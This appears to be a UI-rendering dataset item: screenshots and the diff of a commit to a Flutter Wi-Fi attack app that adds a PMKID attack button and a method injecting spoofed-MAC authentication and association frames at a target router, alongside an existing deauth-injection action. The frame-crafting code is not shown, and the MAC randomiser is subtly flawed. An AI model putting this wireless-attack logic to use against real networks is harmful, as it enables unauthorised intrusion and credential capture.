

Before and after one commit to H4D3ZS/wifite3-flutter, a Flutter app: the TargetScreen screen opened directly, on a phone screen of 412 x 824 dp. Run offline on Flutter 3.47's test engine with Material 3 defaults, Android fonts, the phone set to English and light mode, and no system bars; our stand-ins replace google_fonts.

Commit message:
feat: implement PMKID attack logic (client-less handshake capture)

```diff
--- a/lib/screens/target_screen.dart
+++ b/lib/screens/target_screen.dart
@@ -209,13 +209,28 @@ class TargetScreen extends StatelessWidget {
           ],
         ),
         const SizedBox(height: 16),
-        SizedBox(
-          width: double.infinity,
-          child: OutlinedButton.icon(
-            icon: const Icon(Icons.flash_on),
-            onPressed: viewModel.monitorActive ? () => viewModel.injectDeauth() : null,
-            label: const Text('INJECT DEAUTH [ATTACK]'),
-          ),
+        Row(
+          children: [
+            Expanded(
+              child: OutlinedButton.icon(
+                icon: const Icon(Icons.flash_on),
+                onPressed: viewModel.monitorActive ? () => viewModel.injectDeauth() : null,
+                label: const Text('DEAUTH [CLIENT]'),
+              ),
+            ),
+            const SizedBox(width: 12),
+            Expanded(
+              child: OutlinedButton.icon(
+                style: OutlinedButton.styleFrom(
+                  foregroundColor: HackerTheme.secondary,
+                  side: BorderSide(color: viewModel.monitorActive ? HackerTheme.secondary : HackerTheme.borderDim, width: 2),
+                ),
+                icon: const Icon(Icons.cell_tower),
+                onPressed: viewModel.monitorActive ? () => viewModel.injectPmkidAttack() : null,
+                label: const Text('PMKID [ROUTER]'),
+              ),
+            ),
+          ],
         ),
       ],
     );
--- a/lib/viewmodels/target_viewmodel.dart
+++ b/lib/viewmodels/target_viewmodel.dart
@@ -17,6 +17,7 @@ class TargetViewModel extends ChangeNotifier {
   final Set<String> _clients = {};
   PcapWriter? _pcapWriter;
   bool _handshakeCaptured = false;
+  String _myRandomMac = '00:11:22:33:44:55';
 
   StreamSubscription? _captureSub;
 
@@ -164,6 +165,38 @@ class TargetViewModel extends ChangeNotifier {
     addLog('INJECTION: SENT $successCount/${_clients.length} DEAUTH FRAMES');
   }
 
+  Future<void> injectPmkidAttack() async {
+    if (!_monitorActive) {
+      _errorMessage = 'MONITOR MODE MUST BE ACTIVE';
+      notifyListeners();
+      return;
+    }
+
+    // Generate a new random MAC for each attack to avoid getting ignored
+    final randMac = List.generate(6, (index) => (DateTime.now().microsecondsSinceEpoch % 255).toRadixString(16).padLeft(2, '0')).join(':');
+    _myRandomMac = randMac;
+
+    addLog('STARTING PMKID ATTACK (SPOOFED MAC: $_myRandomMac)');
+
+    // 1. Send Authentication Frame
+    final authFrame = PacketParser.craftAuth(target.bssid, _myRandomMac);
+    await NativeBridge.injectFrame(authFrame);
+    addLog('PMKID: SENT AUTHENTICATION');
+
+    // Small delay to let AP process
+    await Future.delayed(const Duration(milliseconds: 100));
+
+    // 2. Send Association Request
+    final assocFrame = PacketParser.craftAssocReq(target.bssid, _myRandomMac, target.ssid);
+    final ok = await NativeBridge.injectFrame(assocFrame);
+
+    if (ok) {
+      addLog('PMKID: SENT ASSOC REQ (WAITING FOR EAPOL M1...)');
+    } else {
+      addLog('PMKID: INJECTION FAILED');
+    }
+  }
+
   @override
   void dispose() {
     _pcapWriter?.close();
```
Also changed, not shown: lib/utils/packet_parser.dart (+75 -0 lines).
